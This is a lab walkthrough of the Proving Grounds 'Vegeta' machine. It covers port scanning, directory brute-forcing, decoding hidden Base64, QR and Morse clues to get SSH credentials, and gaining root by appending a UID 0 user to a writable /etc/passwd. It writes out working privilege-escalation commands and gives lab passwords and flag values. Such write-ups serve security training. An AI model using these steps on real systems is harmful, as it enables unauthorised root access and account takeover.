# Proving Grounds Play — Vegeta | Full Walkthrough

> **Machine:** Vegeta
> **Difficulty:** Easy (Linux)
> **Author:** vodanhtieutot
> **Platform:** Offensive Security — Proving Grounds Play

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Web Enumeration — Gobuster](#3-web-enumeration--gobuster)
4. [Web Application Analysis — Content Discovery](#4-web-application-analysis--content-discovery)
5. [Steganography & Encoding — Base64 → QR Code](#5-steganography--encoding--base64--qr-code)
6. [Hidden Directory — /bulma & Morse Code Audio](#6-hidden-directory--bulma--morse-code-audio)
7. [Initial Access — SSH with Decoded Credentials](#7-initial-access--ssh-with-decoded-credentials)
8. [Post-Exploitation Enumeration](#8-post-exploitation-enumeration)
9. [Privilege Escalation — Writable /etc/passwd](#9-privilege-escalation--writable-etcpasswd)
10. [Flag Capture](#10-flag-capture)
11. [Flags & Answers Summary](#11-flags--answers-summary)
12. [Attack Chain Summary](#12-attack-chain-summary)
13. [Tools Used](#13-tools-used)

---

## 1. Overview

**Vegeta** is an Easy-rated Linux machine on Proving Grounds Play themed around the Dragon Ball Z character. The attack path requires chaining together multiple information-gathering techniques: web enumeration, Base64 decoding, QR code analysis, and Morse code audio decoding to retrieve SSH credentials. Privilege escalation abuses write permissions on `/etc/passwd` to inject a root-level user.

```
Recon → Gobuster → robots.txt → /find_me (Base64 → QR Code → Password)
→ /bulma (hahahaha.wav → Morse Code → SSH Credentials)
→ SSH as trunks → .bash_history → Writable /etc/passwd → root
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.189.73` |
| Machine Name | `Vegeta` |
| OS | Linux (Debian 4.19, kernel 4.19.0-9-amd64) |
| Open Ports | 22 (SSH), 80 (HTTP) |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

Start with a fast full-port scan using `-Pn` to skip ICMP ping and `--min-rate 5000` to speed things up:

```bash
nmap -Pn -p- --min-rate 5000 192.168.189.73
```



Only two ports are open:

| Port | State | Service |
|---|---|---|
| 22/tcp | open | ssh |
| 80/tcp | open | http |

### 2.2 Service & Script Scan

Run a detailed scan against the two discovered ports with `-sC` (default scripts), `-sV` (version detection), and `-A` (OS detection):

```bash
nmap -sC -sV -A -Pn -p 22,80 192.168.189.73
```



Key findings:

| Detail | Value |
|---|---|
| Port 22 | OpenSSH 7.9p1 Debian 10+deb10u2 |
| Port 80 | Apache httpd 2.4.38 (Debian) |
| HTTP Title | Site doesn't have a title (text/html) |
| OS Guess | Linux 4.15–5.19 |
| Kernel | Linux 4.x / 5.x |

> **Note:** Apache 2.4.38 is running on Debian. The site has no title, suggesting a minimal or hidden web application. We need to enumerate directories to find any exposed content.

---

## 3. Web Enumeration — Gobuster

### 3.1 Initial Scan — Medium Wordlist

First attempt with the standard dirbuster medium wordlist:

```bash
gobuster dir -u http://192.168.189.73 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 50
```



Results from the first scan:

| Path | Status | Notes |
|---|---|---|
| `/img` | 301 | Image directory |
| `/image` | 301 | Another image directory |
| `/admin` | 301 | Admin panel (worth checking) |
| `/manual` | 301 | Apache manual |
| `/server-status` | 403 | Forbidden |

> The medium wordlist didn't reveal everything. The `/admin` redirect and missing `robots.txt` results suggest we need a more thorough scan.

### 3.2 Second Scan — Larger Wordlist with Extensions

Switch to the larger DirBuster 2.3-big wordlist and add common extensions:

```bash
gobuster dir -u http://192.168.189.73 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt \
  -x php,txt,bak,zip \
  -t 100
```



The larger wordlist reveals two critical new findings:

| Path | Status | Notes |
|---|---|---|
| `login.php` | **200** | Login page (blank — possibly broken) |
| `robots.txt` | **200** | Contains hidden path |
| `/bulma` | **301** | Dragon Ball Z reference — suspicious |

> `/bulma` is an unmistakable Dragon Ball Z reference (Bulma is Vegeta's wife in the series). This is almost certainly a key directory. And `robots.txt` often hides disallowed paths that lead to sensitive content.

---

## 4. Web Application Analysis — Content Discovery

### 4.1 Checking login.php

Navigate to `http://192.168.189.73/login.php`:



The page is completely blank. Nothing useful here at this stage.

### 4.2 Checking /image Directory

Navigate to `http://192.168.189.73/image/`:



The `/image` directory listing is empty — nothing to work with.

### 4.3 Checking /img — vegeta.jpg

Navigate to `http://192.168.189.73/img/`:

The directory contains `vegeta.jpg` — a Dragon Ball Z image of Vegeta:



> This is a visual easter egg reinforcing the machine's theme. No hidden data found in this image at this stage of the attack.

### 4.4 Checking /manual — Apache Version Disclosure

Navigate to `http://192.168.189.73/manual/en/index.html`:



The `/manual` directory reveals the exact Apache version: **Apache HTTP Server Version 2.4**. This confirms the version information from Nmap and could be useful if we need to look up CVEs later.

### 4.5 robots.txt — Discovering /find_me

Navigate to `http://192.168.189.73/robots.txt`:



```
*
/find_me
```

> 💡 **Finding:** `robots.txt` disallows `/find_me` from web crawlers — a classic technique to hide sensitive paths from automated tools while still leaving them accessible. Time to check it manually.

---

## 5. Steganography & Encoding — Base64 → QR Code

### 5.1 Viewing Source of /find_me

Navigate to `http://192.168.189.73/find_me` and view the page source (`Ctrl+U`):



The visible page appears blank, but scrolling to the very bottom of the page source reveals a long Base64-encoded string hidden in an HTML comment. This is a steganographic technique — hiding data in plain sight within the HTML source.

### 5.2 Decoding Base64 → QR Code

Copy the Base64 string from the page source and decode it:

```bash
echo "<base64_string>" | base64 -d > qr_code.png
```

The decoded output is a **QR code image**:


### 5.3 Scanning the QR Code

Use an online QR code scanner (or `zbarimg` on Kali) to decode the QR code:

```bash
zbarimg qr_code.png
```



```
Raw text:     Password : topshellv
Barcode format: QR_CODE
Parsed Result:  Password : topshellv
```

> 🔑 **Credential found:** Password `topshellv` — but we don't yet know the username. We still need to enumerate further.

---

## 6. Hidden Directory — /bulma & Morse Code Audio

### 6.1 Revisiting Gobuster Results — /bulma

Back in the Gobuster results, we noted the `/bulma` directory:



### 6.2 Directory Listing of /bulma

Navigate to `http://192.168.189.73/bulma/`:



The directory contains a single file: **`hahahaha.wav`** (231KB, dated 2020-06-28).

> This is clearly not a normal audio file — the filename `hahahaha.wav` in a directory named after a Dragon Ball character is a deliberate clue. Listening to the file reveals it contains **Morse code** beeps.

### 6.3 Decoding the Morse Code Audio

Download `hahahaha.wav` and decode it using an online Morse code audio decoder at **morsecode.world**:

```bash
wget http://192.168.189.73/bulma/hahahaha.wav
```

Upload the file to `morsecode.world/international/decoder/audio-decoder-adaptive.html`:



The decoded Morse code output:

```
USER : TRUNKS    PASSWORD : US3R(S IN DOLLARS SYMBOL)
```

Interpreting the Morse output (the decoder renders the `$` sign as its description):

- **Username:** `trunks`
- **Password:** `Us3r$`

> 🎯 **Full credentials obtained:**
> - Username: `trunks`
> - Password: `Us3r$`
>
> Note: The password from the QR code (`topshellv`) may be for a different user or service — we now have two passwords to try. The Morse code gives us a complete username + password pair.

---

## 7. Initial Access — SSH with Decoded Credentials

### 7.1 Connecting via SSH

Use the credentials decoded from the Morse code audio to log in via SSH:

```bash
ssh trunks@192.168.189.73
```

Enter password `Us3r$` when prompted:



```
trunks@192.168.189.73's password:
Linux Vegeta 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64
trunks@Vegeta:~$
```

SSH connection established as user **trunks**.

### 7.2 User Flag — local.txt

Check the home directory for flags:

```bash
trunks@Vegeta:~$ dir
local.txt
trunks@Vegeta:~$ cat local.txt
f6678dc67c551f3cead9e5e557919e41
```

> 🚩 **local.txt (User Flag):** `f6678dc67c551f3cead9e5e557919e41`

---

## 8. Post-Exploitation Enumeration

### 8.1 Home Directory Listing

Enumerate the home directory contents with `ls -la`:

```bash
trunks@Vegeta:~$ ls -la
```



Key files visible:

| File | Size | Notes |
|---|---|---|
| `.bash_history` | 382 bytes | Command history — **high value** |
| `.bash_logout` | 220 bytes | Standard file |
| `.bashrc` | 3526 bytes | Shell config |
| `.local/` | dir | Local app data |
| `local.txt` | 33 bytes | User flag (already captured) |
| `.profile` | 807 bytes | Standard file |

### 8.2 Reading .bash_history

```bash
trunks@Vegeta:~$ cat .bash_history
```


The bash history reveals the previous operator's commands — a goldmine of information:

```bash
perl -le 'print crypt("Password@973","addedsalt")'
perl -le 'print crypt("Password@973","addedsalt")'
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd[/sh]
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
ls
su Tom
ls -la
cat .bash_history
sudo apt-get install vim
apt-get install vim
su root
cat .bash_history
exit
```

> 💡 **Critical findings from history:**
> 1. A `perl crypt` command was used to generate a password hash — this is the technique for creating `/etc/passwd`-compatible hashed passwords
> 2. A user `Tom` with UID/GID `0:0` (root-level) was injected into `/etc/passwd` — **meaning `/etc/passwd` is writable by this user**
> 3. The password used was `Password@973`

### 8.3 Attempting su Tom

Try switching to the Tom user from the history:

```bash
trunks@Vegeta:~$ su Tom
```



```
su: user Tom does not exist
```

> The `Tom` user was either never successfully injected, has been cleaned up, or the `/etc/passwd` entry was malformed (note the `[/sh]` typo in the history). However, the key insight is confirmed: **`/etc/passwd` is writable by the `trunks` user.**

### 8.4 Confirming /etc/passwd Permissions

Verify that `/etc/passwd` is actually writable:

```bash
trunks@Vegeta:/home$ ls -la /etc/passwd
```



```
-rw-r--r-- 1 trunks root 1486 Jun 28  2020 /etc/passwd
```

> 🎯 **Vulnerability confirmed:** The file is owned by `trunks` with read-write permissions. This is a critical misconfiguration — `/etc/passwd` should be owned by `root`, not a regular user. We can exploit this to inject a new root-level user.

---

## 9. Privilege Escalation — Writable /etc/passwd

### 9.1 Generating a Password Hash with OpenSSL

Generate a password hash using `openssl passwd` — this produces a crypt-compatible hash that can be placed in `/etc/passwd`:

```bash
trunks@Vegeta:/home$ openssl passwd hacked
VxQf2p3azjCl2
```

The hash `VxQf2p3azjCl2` corresponds to the password `hacked`.

### 9.2 Injecting a Root User into /etc/passwd

Append a new user `hax2` with UID `0`, GID `0` (root-level privileges), home directory `/root`, and shell `/bin/bash`:

```bash
trunks@Vegeta:/home$ echo 'hax2:VxQf2p3azjCl2:0:0:root:/root:/bin/bash' >> /etc/passwd
```

**How this works:**
- `/etc/passwd` entries follow the format: `username:password_hash:UID:GID:comment:home:shell`
- UID `0` and GID `0` = root-level privileges on Linux
- When `su hax2` is run and the password `hacked` is entered, the system authenticates against the hash in `/etc/passwd` directly — bypassing `/etc/shadow`

### 9.3 Switching to the Injected Root User

```bash
trunks@Vegeta:/home$ su hax2
Password: hacked
root@Vegeta:/home# cd ..
```



```
root@Vegeta:/home#
```

> 🎯 **Privilege Escalation successful!** We now have a root shell as `root@Vegeta`.

---

## 10. Flag Capture

### 10.1 Root Flag — proof.txt

Navigate to root's home directory and read the flags:

```bash
root@Vegeta:/home# cd ..
root@Vegeta:/# cd root
root@Vegeta:~# dir
proof.txt   root.txt
root@Vegeta:~# cat proof.txt
5657aa75cf5b205ee045a66f8e3ee4b2
```



> 🚩 **proof.txt (Root Flag):** `5657aa75cf5b205ee045a66f8e3ee4b2`

---

## 11. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `/home/trunks/local.txt` | `f6678dc67c551f3cead9e5e557919e41` |
| Root Flag | `/root/proof.txt` | `5657aa75cf5b205ee045a66f8e3ee4b2` |

---

## 12. Attack Chain Summary

```
[1] Nmap -Pn -p- --min-rate 5000
        → Port 22 (OpenSSH 7.9p1), Port 80 (Apache 2.4.38)

[2] Nmap -sC -sV -A
        → Linux Debian, Apache/2.4.38, kernel 4.19.0-9-amd64

[3] Gobuster dir (medium wordlist)
        → /img, /image, /admin, /manual

[4] Gobuster dir (big wordlist + extensions)
        → login.php (200), robots.txt (200), /bulma (301)

[5] Browse robots.txt
        → Disallowed path: /find_me

[6] View source of /find_me
        → Hidden Base64 string in HTML comment at bottom of page

[7] base64 -d → QR code image
        → zbarimg / online decoder → "Password : topshellv"

[8] Browse /bulma/
        → hahahaha.wav (Morse code audio file)

[9] Upload hahahaha.wav to morsecode.world
        → Decoded: "USER : TRUNKS  PASSWORD : US3R(S IN DOLLARS SYMBOL)"
        → Credentials: trunks : Us3r$

[10] ssh trunks@192.168.189.73
        → User shell as trunks
        → cat local.txt → user flag ✓

[11] cat .bash_history
        → Evidence: /etc/passwd is writable by trunks
        → Technique: inject user with UID 0 via openssl passwd

[12] openssl passwd hacked → VxQf2p3azjCl2
        → echo 'hax2:VxQf2p3azjCl2:0:0:root:/root:/bin/bash' >> /etc/passwd
        → su hax2 (password: hacked)
        → root@Vegeta ✓

[13] cat /root/proof.txt → root flag ✓
```

---

## 13. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `gobuster` | Web directory & file brute-forcing |
| Firefox | Manual web application browsing & source inspection |
| `base64` | Decoding Base64-encoded data from page source |
| `zbarimg` / Online QR decoder | Scanning and decoding QR code image |
| `wget` | Downloading the Morse code audio file |
| morsecode.world | Online Morse code audio decoder |
| `ssh` | Remote login with discovered credentials |
| `openssl passwd` | Generating crypt-compatible password hash |
| `/etc/passwd` injection | Privilege escalation via writable passwd file |
